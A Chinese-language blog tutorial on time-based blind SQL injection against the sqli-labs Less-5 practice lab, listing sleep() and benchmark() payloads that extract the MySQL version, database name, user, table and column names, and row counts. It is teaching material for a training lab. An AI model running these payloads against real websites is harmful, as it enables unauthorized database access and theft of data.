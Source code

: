 ```yaml
---
title: 基于时间的盲注
toc: true
description: 本文使用 sqli less 5 进行基于时间盲注的讲解，介绍其原理，常用函数、payload、流程步骤等。
summary: 本文使用 sqli less 5 进行基于时间盲注的讲解，介绍其原理，常用函数、payload、流程步骤等。
categories:
    - websec
    - sql injection
date: 2019-07-27 22:40:30
tags:
---
```


一般猜测/尝试顺序：

回显注入（单引号->没引号/双引号->括号->括号与单/双引号）->布尔盲注/报错盲注->时间注入

# 时间盲注简介

所谓延时注入主要针对页面无变化，无法用布尔真假判断，无法报错的情况下注入。延时注入是通过页面返回的时间来判断的。

不同的 mysql 数据库版本，延迟注入语句也不同。
mysql >= 5.0 的可以使用 sleep 进行查询 sleep（5）
mysql < 5.0 的可以使用 benchmark( )进行查询 select benchmark(1000,select \* from admin);

# 时间盲注常用函数

1. sleep(n)延长查询时间，延长 n 秒

2. if(exp1,exp2,exp3)如果 exp1 为真，那么执行 exp2，否则执行 exp3.

    比如： if(ascii(substr(version(),1,1))=65,1,sleep(5))

    如果当前数据库版本的第一个字符的 ascii 码为 65，那么正常执行，否则程序等待三秒再执行。

# 检测注入点

先进行前面的一堆可能的注入特征检测，都没有后，可以使用一下注入语句，通过判断页面是否出现延迟来检测是否存在延时注入。

?id=1 and sleep(3) --+

?id=1 and if(1=1,1,sleep(3))

?id=1 and if(1=2,1,sleep(3))

一般，用第一个就能检测出来

# 注入流程

注入流程是和布尔盲注差不多，除了多用了一个 if () 和 sleep 语句，没别的。

### 注入版本

```php
?id=1' and if(left(version(),3)>'5.5',1,sleep(5)) --+
?id=1' and if(left(version(),6)='5.5.53',1,sleep(5)) --+
```

结果：5.5.53

### 注入当前数据库

```php
?id=1' and if(ascii(substr(database(),1,1))=116,1,sleep(5)) --+
?id=1' and if(ascii(substr(database(),2,1))>100,1,sleep(5)) --+
```

一个字符字符的注入，最终，数据库名：security

### 注入当前用户

```php
?id=1' and if(ascii(substr(user(),1,1))>113,1,sleep(3)) --+
```

一个个注入，这里不再演示，结果应该是：root@localhost。

### 当前数据库下的表的个数

```php
?id=1' and if((select count(table_name) from information_schema.tables where table_schema='security')>3,1,sleep(3)) --+
```

4 个表

### 当前数据库下的表名

```php
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>102,1,sleep(3)) --+
```

猜到一半，我感觉是 email，然后验证。

```php
?id=1' and if(left((select table_name from information_schema.tables where table_schema='security' limit 0,1),5)='email',1,sleep(3)) --+
```

验证成功，表名：emails，同理猜测出其他表名: referers，uagents，users

### email 的字段名

```
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),2,1))>100,1,sleep(3)) --+
```

第一个字段：id，然后类推。

### users 表中记录的个数

```php
?id=1' and if((select count(*) from users)>13,1,sleep(3)) --+
```

​ 13 条记录

# benchmark 函数

除了 sleep 函数能够产生延时以外，benchmark 函数同样能够达到类似效果，使用方法也是类似的，一般在 sleep 用不了的时候，试试 benchmark

BENCHMARK(count,expr)用于测试函数的性能，参数一为执行次数，二为要执行的表达式。

可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的 cpu 资源。

比如：可以在 mysql cmd 执行：select benchmark(5000000, md5('helloworld'));

如果觉得慢，可以使用：select benchmark(5000000, sha('helloworld'));

计算 sha 摘要比计算 md5 摘要费时间。

举例

```php
?id=1' and if((select count(*) from users)>19,1,benchmark(2000000,sha('hello'))) --+
```

我一般使用 benchmark(2000000,sha('hello'));

# 总结回顾

1. limit 下标是从 0 开始，substr 下标是从 1 开始
